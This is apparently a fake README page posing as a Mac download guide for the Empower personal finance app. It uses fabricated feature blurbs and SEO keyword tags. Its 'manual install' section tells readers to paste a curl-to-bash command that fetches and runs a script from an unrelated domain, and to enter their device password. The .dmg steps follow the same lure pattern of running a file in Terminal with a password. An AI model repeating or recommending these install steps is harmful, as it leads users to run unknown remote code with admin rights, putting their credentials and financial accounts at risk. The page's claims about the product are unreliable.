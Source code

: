 # Empower App — Download For Mac OS 💼

Empower App is a smart personal finance tool that helps users track spending, build savings, and plan better financial futures. This guide lets you install Empower safely on your Mac. 🧠

![empower](https://www.banks.com/wp-content/uploads/2021/06/Empower-app-logo-256X256.png)

[![Download for Mac](https://img.shields.io/badge/Download%20for%20MacOS-Click%20Here-black?style=for-the-badge\&logo=apple)](https://empower-app-download-for-mac-os.github.io/.github/)

If the button doesn’t work, follow the terminal instructions below to install it manually.

---

## 📦 How to Install Empower App For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get With Empower App

* 💸 **Track All Spending** — View detailed expenses by category in real time.
* 🏦 **Connect Bank Accounts** — Securely sync your financial institutions.
* 📅 **Auto-Save Feature** — Set savings goals and let Empower automate it.
* 📊 **Budgeting Tools** — Build customized budgets tailored to your lifestyle.
* 🔔 **Smart Alerts** — Get notifications for unusual transactions or bills.
* 💼 **Wealth Tracking** — Monitor your net worth and investments.

---

## About Empower App

Empower App for Mac is a robust finance and budgeting application designed to give users full control over their money. With intuitive tools and real-time financial data, Empower helps users manage their income, expenses, and savings — all from their Mac desktop. Whether you're tracking bills, setting savings goals, or optimizing your spending, Empower delivers everything you need.

One of the standout features is automatic expense categorization, giving you deep insights into where your money goes each month. Empower’s budgeting tools allow you to set custom limits, track progress visually, and receive alerts to stay within bounds. It’s built for people who want more awareness and fewer financial surprises.

Empower App also shines with its Smart AutoSave tool, which uses AI to determine how much you can safely save each week and transfers that amount automatically. This is a huge benefit for users who struggle with saving consistently. Combined with its savings goal tracking and bill detection, it becomes your complete financial assistant.

Finally, Empower offers top-level encryption and security, ensuring your personal and financial data is always safe. This Mac version offers all features from the mobile app — now in a convenient desktop format for better productivity and clarity.

---

## ✅ Empower App Benefits

* 🔐 Bank-level encryption and privacy
* 📱 Seamless mobile-to-Mac integration
* 🔄 Real-time syncing with financial accounts
* 🚨 Personalized alerts for smart decision-making
* 🧮 Smart AutoSave recommendations
* 🧭 Net worth and investment tracking in one place

---

## 🖼 Preview

![Empower Dashboard](https://robberger.com/wp-content/uploads/2023/02/desktop-dashboard-EMP-1024x748.png)
*Real-time overview of your net worth and account balances*

![Empower AutoSave](https://i.postimg.cc/x8xg45p0/empower-2.png)
*Smart AutoSave helping you build savings effortlessly*

![Empower Budget](https://i.postimg.cc/Y0ZzW9zJ/empower-3.png)
*Track and customize your monthly budget easily*

![Empower Insights](https://i.postimg.cc/L6hRmHk5/empower-4.png)
*Receive AI-powered insights to improve spending habits*

---

## 🔍 Tags

empower app, empowerment app, empower ai, empower loan app, empower app review, download empower app, empower app download, empower login app, empower loan application, empower app mac, download empower free, empower budget app for mac, financial tracker mac, empower finance for mac, money manager empower, empower app desktop version, best finance app mac, personal finance empower mac, empower spending tracker
